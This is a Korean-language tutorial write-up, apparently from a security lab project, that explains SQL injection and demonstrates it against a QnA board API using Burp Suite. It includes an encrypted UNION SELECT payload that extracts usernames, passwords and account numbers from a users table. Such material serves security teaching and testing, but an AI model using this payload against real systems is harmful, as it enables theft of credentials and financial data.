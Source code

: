 # SQL 주입 공격
---
## 1. SQL 주입 공격이란?
---
+ 사용자의 입력 값으로 웹 사이트 SQL 쿼리가 완성되는 약점을 이용하며, 입력 값을 변조하여 비정상적인 SQL 쿼리를 조합하거나 실행하는 공격이다. 
+ 해당 취약점이 존재하는 경우 비정상적인 SQL 쿼리로 DBMS 및 
데이터(Data)를 열람하거나 조작 가능하므로 사용자의 입력 값에 대한 필터링을 구현하여야 한다.

---
## 2. 공격방법
---
Burp suite로 QnA 게시판(/api/qna/view) 요청을 가로챈다.

![버프로잡은화면](https://user-images.githubusercontent.com/115529661/200977942-95309400-1560-4f96-9c47-bdd4911a10d4.jpg)

요청 body의 enc_data를 복호화하면 qna_id가 전달되는 것 확인할 수 있다.

![qna_id확인](https://user-images.githubusercontent.com/115529661/200978257-ce5eb74c-c1a8-416d-aac0-81d12b22f093.jpg)

qna_id에 넣을 SQL 쿼리문이다.
```js
{"qna_id":"false UNION select username as title, password as content, account_number as write_at from users where true LIMIT 1,2; -- "}
```
주입할 쿼리문을 포함한 JSON을 암호화한다.
```js
encrypt('{"qna_id":"false UNION select username as title, password as content, account_number as write_at from users where true LIMIT 1,2; -- "}');
```
![쿼리암호화](https://user-images.githubusercontent.com/115529661/200978302-b40fe385-5de5-4bf0-a091-79cb40fed626.png)

앞에서 암호화한 데이터를 요청에 넣어 보냈다.

![암호화한 데이터 송신](https://user-images.githubusercontent.com/115529661/200978464-1bf4a821-aa09-4e24-a3c5-5426fad26200.jpg)

응답값을 복호화해서 쿼리문 결과 확인할 수 있다.

![결과확인](https://user-images.githubusercontent.com/115529661/200978704-d8c4e842-44a3-4d0f-a559-07d533e9b402.jpg)

**암호화,복호화 확인 넣어야함

---